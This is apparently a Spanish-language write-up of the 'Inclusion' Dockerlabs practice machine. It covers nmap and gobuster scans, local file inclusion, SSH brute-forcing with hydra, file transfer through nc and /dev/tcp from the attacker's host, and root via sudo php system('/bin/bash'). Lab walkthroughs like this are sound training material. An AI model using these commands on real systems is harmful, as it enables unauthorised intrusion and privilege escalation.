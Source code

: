 Máquina Inclusion

Iniciamos como siempre con el nmap de reconocimiento:

```
# Nmap 7.94SVN scan initiated Fri Apr 19 07:28:09 2024 as: nmap -p- --open -sSCV --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000050s latency).
Scanned at 2024-04-19 07:28:10 CEST for 7s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03:cf:72:54:de:54:ae:cd:2a:16:58:6b:8a:f5:52:dc (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFBns4ZccIGmiw02cgCwENA1Lqhf7o9eDomefNVF1iF0Yxx+9JEB6f1kEHCjHqd7fBtn6mnlgPdE+VfqBGVhc2U=
|   256 13:bb:c2:12:f5:97:30:a1:49:c7:f9:d0:ba:d0:5e:f7 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIr1k5/j/3yvWf8rLays4s/EPgkqySLYjRHL6QAq2yN8
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.57 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que hay un puerto ssh y un http, vamos a ver el http, hay un apache por defecto, vamos a fuzzear:

```
gobuster dir -u "http://172.17.0.2/" -w /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,txt,php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/shop                 (Status: 301) [Size: 307] [--> http://172.17.0.2/shop/]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
Progress: 203806 / 830576 (24.54%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 204310 / 830576 (24.60%)
===============================================================
Finished
===============================================================
```

Nos encontramos con /shop, vamos a enumerar, dentro de /shop no hay nada, vamos a tirar otro gobuster,
que nos sale que existe un index.php

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/06d2a41e-3a9f-48e0-932a-4957563dd643)

Al ver el error, podemos intuir que estan intentando llamar a un archivo del sistema, vamos a ver si es vulnerable a un LFI

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/b0ee217f-0c77-4212-8fb3-92422d8ce979)

Efectivamente, ahora hay muchas formas de sacar un rce desde hacer un log poisoning, utilizar gruapers o buscando la id_rsa,
o haciendo una fuerza bruta con los usuarios que están enumerados en el /etc/passwd al ver que el ssh esta abierto, vamos a 
ver si podemos enumerar la id_rsa:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/09dfb082-9607-4abd-a28d-31b91ffe7782)

No encontramos id_rsa, probamos con log poisoning:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/4f3464a8-f430-4d6b-9e72-8c4414212a68)

Tampoco, probamos con gruapers y si esto no da, vamos a hacer una fuerza bruta con hydra al ssh con los usuarios que hemos enumerado, con gruapers
tampoco, al final me he complicado para nada, vamos con la fuerza bruta:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/180fb159-c9ef-4a7d-b88a-d15375cceb47)

efectivamente tenemos el ssh xd, vamos a entrar y enumerar para la escalada de privilegios:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/0da0de24-7772-420f-8621-6635dcef4f62)

empezamos con sudo -l y no va, SUID tampoco hay nada, tareas crom tampoco, etc. No he encontrado nada, así que vamos
a intentar iniciar el ssh con el otro usuario, llevo un tiempo y nada, vamos a intentar entonces con el script de fuerza bruta de mario,
ademas al ser una máquina de mario, pues tiene toda la pinta:

Al parecer wget no esta instalado en la máquina.

Trasferencia de archivos a pelo:

```
nc -nlvp 443 < Linux-Su-Force.sh # Nuestra máquina
cat < /dev/tcp/192.168.1.37/443 > Linux-Su-Forze.sh # En la máquina víctima
```

ademas del script, tengo que pasar también el rockyou.txt, entonces hacemos lo mismo:

```
nc -nlvp 443 < rockyou.txt # Nuestra máquina
cat < /dev/tcp/192.168.1.37/443 > rockyou.txt # En la máquina víctima
```

y efectiva mente nos la encuentra:

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/f771e922-a56a-4be8-9a40-1633bc8a7d83)


una vez que estamos en seller ejecutamos sudo -l y encontramos que esta usr/bin/php

```
CMD="/bin/bash"
sudo php -r "system(CMD);"
```

![image](https://github.com/FakeLuci/Dockerlabs-Writups/assets/96147300/bf05e86f-a352-4d7a-aa9f-4e76cebede85)

Una máquina que he tenido muy mala suerte ya que siempre en los ultimos intentos es la técnica que funcionaba,
pero ha estado entretenida, no es la primer vez que utilizo el script de Mario pero tener que trasferirla sin wget 
a estado interesante.

Dificultado 2/5



